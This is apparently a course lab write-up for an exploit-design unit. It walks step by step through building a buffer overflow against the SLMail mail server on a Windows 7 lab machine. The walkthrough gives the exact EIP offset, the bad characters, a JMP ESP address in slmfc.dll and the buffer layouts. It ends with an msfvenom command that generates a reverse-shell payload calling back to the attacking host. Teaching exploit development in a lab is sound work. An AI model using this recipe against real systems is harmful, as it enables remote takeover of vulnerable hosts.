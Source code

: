 						ZEIT8042: Introduction of Exploit Design.
					
					Construct buffer overflow to exploit the system.


			Later, DEP(enabled) environment also exploited by using ROP (Return Oriented Programming)

Environment: 		Kali Linux 2021.2 for attacking machine: 192.168.72.136 | 134
	          	Window 7 SP1: Victim Machine: 192.168.72.137 | 133: 32 bits 


################################################

Step-By-Step Procedure for developing the Shellcode:

###############################################



(1)	./buffer – fuzz.py -> executed (check if EIP could be buffer-overflow or not!)
ESP = 023FA128 … (AAA ….) only ‘A’ send out
EIP = 41414141 (Achieved)

(2)	./buffer – fuzz – pattern.py
ESP = 022EA128 (Dj0Dj1Dj...)

In ID (Immunity Debugger): after attaching the SLMail application.
Kali Linux MC: find pattern_create
	Locate pattern_create
O/P: /user/bin/msf-pattern_create
	/user/share/Metasploit-framework/tools/exploit/pattern_create.rb
Now execute this:
	/user/share/Metasploit-framework/tools/exploit/pattern_create.rb  - l 2700
O/P: Aa0Aa1…
-> Copy this: “(string as buffer…)” and put it in our buffer-fuzz-pattern.py file.
	Run our buffer-fuzz-pattern.py file from Kali M/C when ID is running at Win7 M/C with SLMail application attached. 
	ID “access violation…. [39694438]… found”
	Go back to Kali and find out pattern_offset
Kali: locate pattern_offset
	O/P: /user/bin/msf-pattern_offset
		/user/share/Metasploit-framework/tools/exploit/pattern_offset.rb
	Now run in Kali M/C.
Kali M/C:
/user/share/Metasploit-framework/tools/exploit/pattern_offset.rb – q 39694438
O/P: [*] Exact match at offset 2606

(3)	./buffer-fuzz-offset.py

Buffer = “A” * 2606 + “B” * 4 + “C” * 290  create a 2900 bytes
and check the EIP resistor if it is ‘BBBB’ or ‘42424242’ means our offset is correct.

	Run the program from Kali (./buffer-fuzz-offset.py)
	Run ID in Win7 machine where SLMail is attached with it.
O/P at ID is:
	ESP: full of ‘CCCCCC….’
	EIP: 42424242
	Means OFFSET ‘2606’ is correct to reach EIP resistor.
Now, increase our buffer size to 3500 bytes using more ‘C’  ./buffer-fuzz-C.py

(4)	./buffer-fuzz-badchars.py

We need to find bad characters from the file as it will make the output out of order. For this reason, construct a bad char byte array. It is done from ID in win Win7 M/C
	!mona bytearray 
O/P is bytearray.txt in the ID folder. 
	Copy the byte contexts from bytearray.txt file and create a .py file as buffer-fuzz-badchars.py
	In this file, include the bytearray as variable badchars = …… and ‘buffer’ variable looks like in the following:
Buffer = “A” * 2606 + “B” * 4 + badchars
	Now run this .py from Kali Linux M/C and check this in ID on Win7 M/C after attaching the SLMail application. 
	Now ECX resistor show  illegal command…. AAA… click it and follow in dump. 
O/P: (ECX 025A9ECA ASCII “………. AAAA……”)
	In the DUMP window O/P check the contents after
42 42 42 42 01 02 03 04 05 06 07 08 09 29 20

After 09, it should be 0a 0b… rather 29 20 
So I/P character and O/P character have discrepancies. 
It means OA is bad character.
So remove this from I/P file  means buffer-fuzz-badchar.py file delete the ‘OA’ file from the badchar variable and save it. 
	Do the previous process again and run it.
	And find out ‘\X0D’ has another bad character.
	‘\X00’ also a bad character.
	So from onwards, we have to remember to exclude ‘\X00’, ‘\X0A’ and ‘\X0D’ characters. 

(5)	./buffer-fuzz-C.py (check if EIP’s particular position could be determined)
ESP = 0226A128 (CCCC….)
EIP: 42424242 (Achieved)
(6)	Find the memory address of JMP ESP.
	In the ID: search for >command>JMP ESP (Find Command Windows)
	The OP code for JMP ESP is ‘FFE4’ means “\XFF\XE4”
	Run 
!mona find -s “\XFF\XE4” – m slmfc.dll
	Why is slmfc.dll, why not ntdll.dll?
-	Because .dll module should be ASLR and REBASE false. In case of ntdlll.dlll  both are true.
-	In shellcode execution we need fixed memory address which will not change at this. This is vital for our shellcode executed process.
O/P: 0X5F4A358F
	0X5F4B11E3
…
19 points found.

I choose OX5F4A358F as it has no bad characters and ASLR & REBASE are false. 
	SLMFC.DLL modules.

	Now reconstruct or update our buffer code.
o	In buffer-fuzz-jmp-esp.py file.
Buffer = “A”*2606+”\X8F\X35\X4A\X5F”+”C”*(3500-2606-4)

As we are using Intel machine and it is little endian, addresses are in reverse order. 
	Now run the program ./buffer-fuzz-jmp-esp.py 
Against ID(Win 7 M/C) > SLMail application attached to it.

ESP = 019CA128    ASCII “CCCCC….”
EBP = 41414141
EIP = 019CA2D6

On the stack dump: O/P is 
019CA11C	41414141	AAAA
019CA120	41414141	AAAA
019CA124	5F4A358F	SLMFC.5F4A3585	 A
019CA128	43434343			 B	
019CA12C	43434343

(A)	It is important (0X019CA124) memory location contain string (5F4A358F), which in actually a memory address that stack do not consider. It’s job in when EIP resistor have this input it see whether it is a legitimate address or not? If not ‘access violation’ or jump to that location. When it jump to that location, it found ‘JMP ESP’ instruction or op code of “\XFF\XEA”. 
(B)	To execute the instruction it go to the stack pointer at (0X19CA128) memory location and fetch the contents. If we put our exploit here then it will execute. In many case, “\X90”: NOP (no operation) op code use to direct the shellcode execution location. 
Next the shellcode execution.

(7)	Shellcode execution.

On the Kali Linux M/C execute following command to get the reverse shell of Windows 7 M/C:

	msfvenom -p windows/shell_reverse_tcp LHOST=<attack m/c IP> LPORT=<port#> -f c -a x86 –platform windows -b “\X00\X0A\X0D” -e X86/shikata_ga_nai
	Copy the O/P of this command and put it in the clipboard.



Youtube Link: https://www.youtube.com/watch?v=j-K0jX0vgkI&ab_channel=AhasanAnowar
